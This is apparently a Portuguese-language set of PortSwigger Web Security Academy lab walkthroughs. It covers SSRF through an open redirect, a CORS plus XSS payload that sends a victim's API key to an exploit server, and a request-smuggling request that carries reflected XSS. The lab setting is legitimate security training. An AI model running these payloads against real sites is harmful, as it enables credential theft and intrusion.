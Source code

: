 ```
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

<br>
<br>

**Lab: SSRF with Filter Bypass via Open Redirection Vulnerability**

Open Redirection está em:
```
https://0af200a003bdc068859abe6100db00ec.web-security-academy.net/product/nextProduct?currentProductId=2&path=https://0af200a003bdc068859abe6100db00ec.web-security-academy.net
```

SSRF:
```
/product/nextProduct?path=http://192.168.0.12:8080/admin
```

<br>
<br>

**Lab: CORS vulnerability with Trusted Insecure Protocols**

1. Revise o hisórico e observe que a chave é obtida através de uma requisição AJAX para /accountDetails e a resposta contém o header `Access-Control-Allow-Credentials`.
2. Envie a request para o Repeater e adicione o header `Origin: http://subdomain.lab-id` onde o `lab-id` é o domínio do laboratório.
3. Observe que o origin é refletido em `Access-Control-Allow-Origin`, confirmando que o CORS aceita o acesso desses subdomínios.
4. Aba a página de produto, click em **Check stock** e observe que uma página com um subdomíno é carregada.
5. Observe que o parâmetro `productId` é vulnerável à XSS.
6. Use o seguinte payload para obter a chave de API da vítima:
```html
<script>
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

<br>
<br>

**Lab: Exploiting HTTP Request Smuggling to Deliver Reflected XSS**
```
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
```